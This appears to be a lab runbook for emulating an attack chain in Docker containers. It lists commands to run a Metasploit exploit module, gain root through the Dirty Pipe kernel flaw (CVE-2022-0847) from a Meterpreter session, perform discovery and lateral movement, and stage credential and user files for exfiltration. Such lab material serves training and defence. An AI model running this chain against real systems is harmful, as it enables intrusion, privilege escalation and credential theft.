 # Recon
```bash
#Reconnaissance
#copy recon.sh into k1
docker cp /vagrant/Attacks/Recon/recon.sh k1:/
docker exec k1 chmod +x recon.sh
#Run the script
docker exec k1 ./recon.sh
```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
cp 50531.rb /usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
# Both files are located in / directory of Kali container
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Execute dirtypipe.sh to get root shell
execute -f ./tmp/dirtypipe.sh -i -H
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash


```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 

